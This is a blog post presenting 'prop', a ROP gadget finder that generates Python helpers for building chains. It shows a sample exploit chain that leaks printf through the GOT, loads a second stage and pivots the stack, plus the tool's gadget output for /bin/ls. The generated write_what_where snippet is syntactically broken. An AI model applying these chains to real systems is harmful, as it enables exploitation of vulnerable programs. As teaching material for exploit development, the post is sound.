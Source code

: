 ```yaml
---
tags: ["tool", "ROP"]
---
```


`prop` is a tool to extract _rop gadgets_ and generate python code that helps you create your _rop chains_ automatically and by hand. This is a tool I developed while learning to exploit binaries using return oriented programming (ROP). It was a mostly for learning but it turned into something I've used ever since, and find very practical.

You can find it here: [https://github.com/Vasco-jofra/prop](https://github.com/Vasco-jofra/prop)

In the rest of this post I will explain how I write ROP chains and where I use `prop` to help me do it faster.

## Simple ROPs
For very simple ROP exploits, for example when we are given a statically linked binary or just a very large binary, the amount of gadgets makes it simple to exploit. In these situations I simply use `ROPgadget` or a similar tool to automatically generate the rop chain. When the situation is tricker, that's when I take advantage of `prop`.

## Manually writing ROPs
With less gadgets, we might have to write the ROP chain by hand. My typical exploits look something like this:

```python
def set_rdi(rdi):
    return "".join([
        p64(0x400ab3),  # ('pop rdi', 'ret') --> ['0x400ab3']
        p64(rdi),
    ])

def set_rsi_r15(rsi, r15):
    return "".join([
        p64(0x400ab1),  # ('pop rsi', 'pop r15', 'ret') --> ['0x400ab1']
        p64(rsi),
        p64(r15),
    ])

def set_rdx(rdx):
    return "".join([
        p64(0x4007cb),  # ('pop rdx', 'ret') --> ['0x4007cb']
        p64(rdx),
    ])

def set_rsp_r13_r14_r15(rsp, r13, r14, r15):
    return "".join(
        [
            p64(0x400aad),  # ('pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret') --> ['0x400aad']
            p64(rsp),
            p64(r13),
            p64(r14),
            p64(r15),
        ]
    )

def pivot(addr):
    return "".join([
        set_rsp_r13_r14_r15(addr - (8 * 3), 0, 0, 0),
    ])

# This example is an exploit that leaks the address of printf and then reads a second ROP and pivots there
ROP = "".join([
        # leak printf
        set_rdi(1),
        set_rsi_r15(elf.got['printf'], 0),
        set_rdx(8),
        p64(elf.plt['write']),

        # Load the second ROP
        set_rdi(0),
        set_rsi_r15(rop_2_addr, 0),
        set_rdx(rop_2_max_len),
        p64(elf.plt['read']),

        # Pivot to the second ROP
        pivot(rop_2_addr),
        p64(0xdeadbeef),
])
```

I'm not a big fan of writing exploits that look like this:
```python
ROP = ""

# leak printf
ROP += p64(0x400ab3),  # ('pop rdi', 'ret') --> ['0x400ab3']
ROP += p64(1),
ROP += p64(0x400ab1),  # ('pop rsi', 'pop r15', 'ret') --> ['0x400ab1']
ROP += p64(elf.got['printf']),
ROP += p64(0),
ROP += p64(0x4007cb),  # ('pop rdx', 'ret') --> ['0x4007cb']
ROP += p64(8),
ROP += p64(elf.plt['write']),

# Load the second ROP
ROP += p64(0x400ab3),  # ('pop rdi', 'ret') --> ['0x400ab3']
ROP += p64(0),
# (...) and so on, you get the point
```

I prefer the higher abstraction of setting registers with these `set_reg` functions instead of just writing the addresses inline every time. It makes it simpler to understand, debug and modify exploits.

`prop` can generate these automatically! By running `prop -c /bin/ls` you will get all these functions. This would be the output:
```python
# [INFO] Extracting gadgets for the binary '/bin/ls'
# [INFO] Extracting gadgets from the executable section 0x40-0x238
# [INFO] Found 0 unique gadgets in 0.01 seconds at depth 10.
# [INFO] Skipped 0
# [INFO] Extracting gadgets from the executable section 0x0-0x1e6e8
# [INFO] Found 1687 unique gadgets in 2.18 seconds at depth 10.
# [INFO] Skipped 2145

####################
def set_rbx(rbx):
	return "".join([
		p64(0x60d0), # ('pop rbx', 'ret') --> ['0x60d0', '0x618a', '0x63fc']
		p64(rbx),
	])

def set_rbp_r14(rbp, r14):
	return "".join([
		p64(0x629a), # ('pop rbp', 'pop r14', 'ret') --> ['0x629a', '0x920c', '0xc639']
		p64(rbp),
		p64(r14),
	])

# ...
# removed some for brevity
# ...

def set_rsp(rsp):
	return "".join([
		p64(0x6770), # ('pop rsp', 'ret') --> ['0x6770', '0x685a', '0x69e0']
		p64(rsp),
	])

def set_r12_r13_r14(r12, r13, r14):
	return "".join([
		p64(0x6297), # ('pop r12', 'pop r13', 'pop r14', 'ret') --> ['0x6297', '0x9209', '0xc636']
		p64(r12),
		p64(r13),
		p64(r14),
	])

####################
def syscall():
	return p64(0x988) # ('syscall',) --> ['0x988']
	# Other option: return p64(0xd352) # ('int 0x80',) --> ['0xd352', '0xf8c8', '0xf8d9']

####################
def write_what_where():
	return "".join([
		return p64(0x13602),  # ('mov [rdi], edx', 'ret') --> ['0x13602', '0x13601']
		# Other good option   : return p64(0x135be),  # ('mov [rdi], esi', 'ret') --> ['0x135be']
		# No control of 'from': return p64(0xdb10),  # ('mov [rdi], rcx', 'xor eax, eax', 'ret') --> ['0xdb10']
		# No control of 'from': return p64(0xdb11),  # ('mov [rdi], ecx', 'xor eax, eax', 'ret') --> ['0xdb11']
	])
```

As you can see besides looking for `set_reg` functions it will also try to find `write-what-where` and `syscall` gadgets which are also useful primitives.

## Usage
`prop -h`
```
usage: prop [-h] [-d DEPTH] [-t] [-c] [-p] [-m MAX_ADDRS_PER_GADGET] [-s]
            binary_path

positional arguments:
  binary_path           The binary path of the file to be analyzed

optional arguments:
  -h, --help            show this help message and exit
  -d DEPTH, --depth DEPTH
                        Gadget search depth (default=10)
  -t, --text_gadgets    output gadgets in text format (default)
  -c, --code            output interesting gadgets found as python functions
  -p, --python_gadgets  output gadgets as a python dictionary
  -m MAX_ADDRS_PER_GADGET, --max_addrs_per_gadget MAX_ADDRS_PER_GADGET
                        the maximum number of addresses that are printed per
                        gadget (default=3)
  -s, --silent          no gadgets output, just some info
```